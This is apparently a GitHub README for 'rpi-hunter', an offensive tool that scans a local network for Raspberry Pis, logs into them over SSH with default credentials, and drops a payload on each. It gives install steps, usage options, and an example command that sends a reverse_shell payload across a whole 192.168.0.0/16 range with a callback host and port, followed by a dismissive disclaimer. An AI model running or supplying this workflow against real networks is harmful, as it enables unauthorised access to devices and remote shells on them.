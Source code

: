 # rpi-hunter
Automate discovering all Raspberry Pi's on a LAN and drop a payload via ssh (using default creds)

This tool can be useful for when there are multiple Raspberry Pi's on your LAN with default or known credentials, in order to automate sending commands to them.

# GUIDE:

## Installation

1. Install dependencies: `sudo pip install -U argparse termcolor` and `sudo apt -y install arp-scan tshark sshpass`
2. Download rpi-hunter: `git clone https://github.com/BusesCanFly/rpi-hunter`
3. Navigate to rpi-hunter: `cd ./rpi-hunter`
4. Make rpi-hunter.py executable: `chmod +x rpi-hunter.py`
* One line variant: sudo pip install -U argparse termcolor && sudo apt -y install arp-scan tshark sshpass && git clone https://github.com/BusesCanFly/rpi-hunter && cd ./rpi-hunter && chmod +x rpi-hunter.py

## Usage
```
usage: rpi-hunter.py [-h] [--no-scan] [-r IP_RANGE] [-f IP_LIST] [-c CREDS]
                     [--list] [--payload PAYLOAD] [-H HOST] [-P PORT] [--safe]

optional arguments:
  -h, --help         show this help message and exit
  --no-scan          Disable ARP scanning
  -r IP_RANGE        IP range to scan
  -f IP_LIST         IP list to use (Default ./scan/RPI_list)
  -c CREDS           Password to use when ssh'ing
  --list             List avalible payloads
  --payload PAYLOAD  (Name of or raw) Payload [ex. whoami or reverse_shell
  -H HOST            (If using reverse_shell payload) Host for reverse shell
  -P PORT            (If using reverse_shell payload) Port for reverse shell
  --safe             Print sshpass command, but don't execute it
```
* Example usage: `./rpi-hunter.py -r 192.168.0.0/16 --payload reverse_shell -H 127.0.0.1 -P 1337` 
* Run `./rpi-hunter.py --list` to see avalible payloads.
* Payloads can be specified by the payload name from `--list` or as raw iput
    * ex. `--payload reverse_shell` or `--payload [your cli command here]`

## Disclaimer
## The standard internet fun disclaimer applies. Don't commit crimes, be responsible.

## I am in no way responsible for anything and everything you do with rpi-hunter.

